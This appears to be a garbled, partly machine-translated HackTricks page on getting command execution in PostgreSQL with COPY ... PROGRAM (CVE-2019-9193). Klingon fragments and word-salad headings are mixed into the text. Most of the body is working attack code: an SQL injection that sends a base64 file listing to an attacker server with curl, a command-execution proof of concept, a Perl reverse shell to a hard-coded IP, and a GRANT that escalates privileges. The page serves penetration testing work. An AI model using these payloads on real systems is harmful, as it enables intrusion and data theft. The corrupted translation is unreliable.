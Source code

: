 ## <img src="../.gitbook/assets/i3.png" alt="" data-size="original">

**Bug bounty tip**: **Intigriti** **sign up** **bug bounty platform created by hackers, for hackers**! [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) **join us** today, **bounties** **$100,000** **earning**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## RCE

### **RCE to program**

[version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html) **since**, **super users** **`pg_execute_server_program`** **group** **member** **copy** **RCE** **use** (example **exfiltration**:
```sql
'; copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`ls -l|base64`'-- -
```
Example to exec: 

```
\`psql -h <IP> -U <username> -d <database>\`
```

Translation to Klingon:

```
\`psql -h <IP> -U <username> -d <database>\`
```
```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% hint style="warning" %}
ghobe'wI' jatlhqa' 'ej **`CREATEROLE`** quvmoH permissions vaj **ghobe'wI' jatlhqa' 'e' vItlhutlh:**
```sql
GRANT pg_execute_server_program TO username;
```
[**More info.**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Or use the `multi/postgres/postgres_copy_from_program_cmd_exec` module from **metasploit**.\
More information about this vulnerability [**here**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). While reported as CVE-2019-9193, Postges declared this was a [feature and will not be fixed](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/).
